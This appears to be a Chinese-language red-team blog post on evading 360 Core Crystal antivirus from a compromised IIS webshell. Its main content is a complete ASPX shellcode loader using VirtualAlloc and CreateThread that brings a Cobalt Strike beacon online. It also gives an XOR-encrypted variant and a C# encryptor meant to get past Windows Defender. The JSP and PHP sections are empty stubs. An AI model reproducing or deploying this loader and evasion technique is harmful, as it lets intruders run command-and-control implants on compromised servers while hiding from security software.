

# 概述

在webshell上线木马，他的进程链是cmd，若双击木马，它的进程链是explorer.exe


# 核晶查杀机制	

当我们在webshell终端执行cmd命令时，不要一上来就`whoami`，这样很容易会被杀软查杀，从而导致杀软的查杀力度越来越严格，毕竟360核晶是带机器学习引擎的

	


最好先执行tasklist命令列出目标系统的所有进程，看看是否有杀毒软件

		


有时候你执行calc.exe命令也会被核晶捕捉到，讲道理calc命令就是一个正常的命令，那么为什么会报毒呢？我觉得这可能是一开始你的一些操作被杀软捕捉到了，例如上述我说的执行whoami命令，一旦杀软的查杀力度上来了，你后面起的任何进程都会被查杀

	


360核晶查杀还涉及到进程链问题，当我们在webshell终端执行notepad.exe命令时，它的cmd进程是起在w3wp.exe进程下

> `w3wp.exe` 是 Windows Web 服务器 (IIS) 中的 Worker Process（工作进程）。在你的 web 应用程序接收到一个请求时，该请求实际上是由一个或多个这样的进程来处理的

	


如果在虚拟机中直接打开cmd执行notepad.exe，可以发现cmd进程是起在explorer进程下，这种方式起的进程是不会被杀软查杀的

	


我将白+黑程序上传至目标主机，随后在目标主机中点击白程序，CS能够成功上线


但是在webshell的cmd终端执行白程序会被查杀，就连你劫持的哪个dll都会被杀软捕捉到

		


# bypass核晶思路

## 1.aspx马加载shellcode

### 实战演示

以下是aspx文件的代码，主要使用C#编写，导入了`System`和`System.Runtime.InteropServices`命名空间。

然后，它声明了两个P/Invoke方法，这些方法是.NET中用于调用Windows API或者其他非.NET DLL的方法。这两个方法是`VirtualAlloc`和`CreateThread`，它们来自`kernel32.dll`，一个是Windows系统的核心库

接下来是`Page_Load`方法，这是ASP.NET页面生命周期中的一个重要事件。在页面首次加载和后续的请求中，它都会被触发

```asp
<%@ Page Language="C#" %>
<%@ import Namespace="System"%>
<%@ import Namespace="System.Runtime.InteropServices"%>
<script language="c#" runat="server">
[DllImport("kernel32")]
private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr, uint size, uint flAllocationType, uint flProtect);
[DllImport("kernel32")]
private static extern IntPtr CreateThread(uint lpThreadAttributes,uint dwStackSize, IntPtr lpStartAddress,IntPtr param, uint dwCreationFlags, ref uint lpThreadId);

public void Page_Load(object sender, EventArgs e){
	byte[] esc = new byte[928] {“填写C#的shellcode”};
	IntPtr funcAddr = VirtualAlloc(IntPtr.Zero, (uint)esc.Length, 0x1000, 0x40);
	Marshal.Copy(esc, 0, funcAddr, esc.Length);
	IntPtr hThread = IntPtr.Zero;
	uint threadId = 0;
	IntPtr pinfo = IntPtr.Zero;
	hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
	Response.Write("CreateThread: 0x" + hThread.ToString("x2") + "<br>");
   return;
}
</script>
```


在上述代码中，填写C#的shellcode要注意`w3wp.exe`的架构，w3wp.exe是IIS的工作进程，我们的aspx文件都是通过w3wp.exe来解析的，就如此处的`w3wp.exe`的架构是x64的，那就需要填写x64的shellcode

	


360和火绒都不查杀此文件，但是WindowsDefender会查杀

	

	


网页访问aspx文件时，cobaltstrike上线成功，并且360核晶也没有拦截

	

​				


在beacon执行`getuid`命令也不会被拦截，简单总结下，此类技术之所以能躲避杀软的检测，是因为w3wp.exe进程本身是正常存在的，并且经常在正常操作中被使用，这也导致杀软不敢轻易就关掉此进程


### 免杀处理

WindowsDefender会查杀aspx代码里的shellcode, 只需对shellcode进行异或加密就能绕过, 以下是修改后的aspx文件代码

```asp
<%@ Page Language="C#" %>
<%@ import Namespace="System"%>
<%@ import Namespace="System.Runtime.InteropServices"%>
<%@ import Namespace="System.Text"%>
<script language="c#" runat="server">
[DllImport("kernel32")]
private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr, uint size, uint flAllocationType, uint flProtect);
[DllImport("kernel32")]
private static extern IntPtr CreateThread(uint lpThreadAttributes,uint dwStackSize, IntPtr lpStartAddress,IntPtr param, uint dwCreationFlags, ref uint lpThreadId);

public void Page_Load(object sender, EventArgs e){
    // 加密后的shellcode
    byte[] esc = new byte[928] { /* 省略 */ };
    
    // 解密密钥
    byte[] key = System.Text.Encoding.UTF8.GetBytes("henry666");

    // 解密shellcode
    for (int i = 0; i < esc.Length; i++)
    {
        esc[i] ^= key[i % key.Length];
    }
	
    IntPtr funcAddr = VirtualAlloc(IntPtr.Zero, (uint)esc.Length, 0x1000, 0x40);
    Marshal.Copy(esc, 0, funcAddr, esc.Length);
    IntPtr hThread = IntPtr.Zero;
    uint threadId = 0;
    IntPtr pinfo = IntPtr.Zero;
    hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
    Response.Write("CreateThread: 0x" + hThread.ToString("x2") + "<br>");
   return;
}
</script>

```


以下是xor加密shellcode的C#代码

```c#
using System;
using System.Text;

class Program
{
    static void Main()
    {
        // 原始shellcode
        byte[] shellcode = new byte[928] {};
            
        // 加密密钥
        byte[] key = Encoding.UTF8.GetBytes("henry666");

        // 加密shellcode
        for (int i = 0; i < shellcode.Length; i++)
        {
            shellcode[i] ^= key[i % key.Length];
        }

        // 打印加密后的shellcode
        Console.Write("byte[] shellcode = new byte[{0}] {{", shellcode.Length);
        for (int i = 0; i < shellcode.Length; i++)
        {
            Console.Write("0x{0}", shellcode[i].ToString("X2"));
            if (i != shellcode.Length - 1)
            {
                Console.Write(", ");
            }
        }
        Console.Write("};");

        // 等待用户按下回车键
        Console.WriteLine("\n\nPress Enter to exit...");
        Console.ReadLine();
    }
}
```


## 2.jsp马研究

webshell终端执行`tasklist`命令没有出现报毒


执行whoami也没有报毒，为啥asp的马会报毒呢？会不会是冰鞋

	


运行白+黑时被杀软查杀了，查看进程链可以得知，cmd进程是起在javaw.exe下

> `javaw.exe` 提供了一个运行环境，用于运行解析和执行 JSP 文件的 Servlet 容器

			


## 3.php马

​			


# End

​	


​	


​			

​		

​	